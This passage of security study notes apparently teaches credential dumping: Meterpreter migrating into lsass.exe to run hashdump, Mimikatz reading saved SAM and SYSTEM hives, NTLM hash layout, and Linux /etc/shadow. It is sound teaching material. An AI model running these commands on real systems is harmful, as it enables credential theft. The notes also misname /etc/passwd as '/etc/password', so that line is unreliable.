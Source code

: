```
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > ps -S lsass.exe
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
620 480 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Win...\System32\lsass.exe
meterpreter > migrate 620
[*] Migrating from 1248 to 620...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
susan:1000:aad3b435b51404eeaad3b435b51404ee:864d8a2947723c4264598997c1d67a83:::
```

##### Mimikatz

Using SAM and SYSTEM registry

```
C:\Temp> reg save hklm\sam sam.hiv && reg save hklm\system system.hiv
C:\Temp> c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv
/system:system.hiv" "exit"
...
RID : 000003e8 (1000)
User : Sec504
Hash NTLM: 864d8a2947723c4264598997c1d67a83
```

#### Cracking Hash

##### Hash Structure

```
username:userid:LANMAN:NTHASH
```

**DISABLED ACCOUNT always has these hashes**

```
tom:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
```

### Linux hash

- Used to use DES encryption without salt
- Currently SHA-512 with 8-byte salt
- Password hash: `/etc/shadow`
- Usernames and other information: `/etc/password`

`/etc/shadow` looks like (`$6` indicates the password is hashed with SHA-512)
